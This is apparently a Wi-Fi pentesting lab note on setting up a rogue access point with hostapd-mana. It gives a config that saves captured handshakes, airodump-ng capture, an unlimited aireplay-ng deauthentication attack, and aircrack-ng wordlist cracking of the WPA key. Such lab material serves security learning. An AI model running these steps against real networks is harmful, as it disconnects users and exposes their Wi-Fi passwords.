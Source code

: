 # Rogue AP

Multiple APs that transmit the same SSID. The client/station will choose the one with the strongest signal. An attacker may advertise an AP with the same SSID except that the AP is a very bad AP controlled by the attacker.

Even if the pre-shared key is unknown, the attacker can still aquire the first two messages in the four-way handshake. Other details might make this a bit more complicated like sharing the same encryptions attributes as well.

Create an AP with DEVICE.

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Three terminals are needed
* One client needs to be associated with AP
* Need two ADAPTERS - connect both at the start
    * First to be the rogue AP
    * Second to be the run deauth attack against first

![two aps](../images/two-aps.png)

## Build a Rogue AP

hostapd is a user space daemon for access point and authentication servers. It implements IEEE 802.11 access point management, IEEE 802.1X/WPA/WPA2/EAP Authenticators, RADIUS client, EAP server, and RADIUS authentication server. The current version supports Linux (Host AP, madwifi, mac80211-based drivers) and FreeBSD (net80211).

Can crack WPA and WPA2. Not WPA3. Below WPA3 means WPA and WPA2, not WPA3.

### Install Hostapd-mana

```bash
# [Terminal One]
sudo apt install hostapd-mana

# Create a config file - first adapter is the rogue AP
vi hostapd.conf
interface=wlan0
ssid=rogue
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=informix
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/informix.hccapx

# Start the rogue AP
sudo hostapd-mana hostapd.conf
```
![hostapd-mana](../images/hostapd-mana.png)

* Connect client to the rogue AP w/correct PSK to see association messages

![hostapd-mana](../images/rogue-ap-connection.png)

```bash
# [Terminal Two]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE2 1

# Start monitoring to collect data
sudo airodump-ng -c 1 --bssid $INTERFACEMAC -w $TAG $INTERFACE2
```
![rogue dump](../images/rogue-ap-dump.png)

```bash
# [Terminal Three]
sudo aireplay-ng --deauth 0 -a $INTERFACEMAC $INTERFACE2

# Watch for successful fourway handshake capture message

# Stop everything
```

![rogue connection](../images/rogue-ap-authenticated.png)

```bash
# Crack the hostapd capture file
aircrack-ng -0 -e rogue -w $WORDLIST informix.hccapx
# OR the normal PCAP file
aircrack-ng -0 -e rogue -w $WORDLIST $PCAP
```

![rogue cracked](../images/rogue-ap-cracked.png)

## References

* [hostapd](https://w1.fi/hostapd/)
* [hostapd-mana](https://github.com/sensepost/hostapd-mana/)
* [hostapd-mana config](https://github.com/sensepost/hostapd-mana/blob/master/hostapd/hostapd.conf)
